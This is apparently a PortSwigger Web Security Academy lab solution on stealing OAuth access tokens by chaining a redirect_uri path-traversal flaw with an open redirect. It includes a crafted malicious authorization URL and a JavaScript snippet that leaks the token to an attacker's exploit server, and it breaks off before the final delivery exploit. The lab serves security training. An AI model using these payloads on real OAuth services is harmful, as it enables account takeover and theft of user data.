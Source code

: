 - Once you identify which other pages you are able to set as the redirect URI, you should audit them for additional vulnerabilities that you can potentially use to leak the code or token. 
- For the authorization code flow, you need to find a vulnerability that gives you access to the query parameters, whereas for the implicit grant type, you need to extract the URL fragment.
- One of the most useful vulnerabilities for this purpose is an open redirect. You can use this as a proxy to forward victims, along with their code or token, to an attacker-controlled domain where you can host any malicious script you like.
- Note that for the implicit grant type, stealing an access token doesn't just enable you to log in to the victim's account on the client application. 
- As the entire implicit flow takes place via the browser, you can also use the token to make your own API calls to the OAuth service's resource server. 
- This may enable you to fetch sensitive user data that you cannot normally access from the client application's web UI.

# Solution
- While proxying traffic through Burp, click "My account" and complete the OAuth login process. Afterwards, you will be redirected back to the blog website.
- Study the resulting requests and responses. Notice that the blog website makes an API call to the userinfo endpoint at /me and then uses the data it fetches to log the user in. Send the GET /me request to Burp Repeater.
- Log out of your account and log back in again. From the proxy history, find the most recent GET /auth?client_id=[...] request and send it to Repeater.
- In Repeater, experiment with the GET /auth?client_id=[...] request. Observe that you cannot supply an external domain as redirect_uri because it's being validated against a whitelist. 
- However, you can append additional characters to the default value without encountering an error, including the /../ path traversal sequence.
- Log out of your account on the blog website and turn on proxy interception in Burp.
- In the browser, log in again and go to the intercepted GET /auth?client_id=[...] request in Burp Proxy.
- Confirm that the redirect_uri parameter is in fact vulnerable to directory traversal by changing it to: https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post?postId=1
- Forward any remaining requests and observe that you are eventually redirected to the first blog post. In the browser, notice that your access token is included in the URL as a fragment.
- With the help of Burp, audit the other pages on the blog website. Identify the "Next post" option at the bottom of each blog post, which works by redirecting users to the path specified in a query parameter. Send the corresponding GET /post/next?path=[...] request to Repeater.
- In Repeater, experiment with the path parameter. Notice that this is an open redirect. You can even supply an absolute URL to elicit a redirect to a completely different domain, for example, your exploit server.
- Craft a malicious URL that combines these vulnerabilities. You need a URL that will initiate an OAuth flow with the redirect_uri pointing to the open redirect, which subsequently forwards the victim to your exploit server: 
```
https://oauth-YOUR-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit&response_type=token&nonce=399721827&scope=openid%20profile%20email
```
- Test that this URL works correctly by visiting it in the browser. You should be redirected to the exploit server's "Hello, world!" page, along with the access token in a URL fragment.
- On the exploit server, create a suitable script at /exploit that will extract the fragment and output it somewhere. For example, the following script will leak it via the access log by redirecting users to the exploit server for a second time, with the access token as a query parameter instead:
```
<script>
window.location = '/?'+document.location.hash.substr(1)
</script>
```
- To test that everything is working correctly, store this exploit and visit your malicious URL again in the browser. Then, go to the exploit server access log. There should be a request for GET /?access_token=[...].
- You now need to create an exploit that first forces the victim to visit your malicious URL and then executes the script you just tested to steal their access token. For example: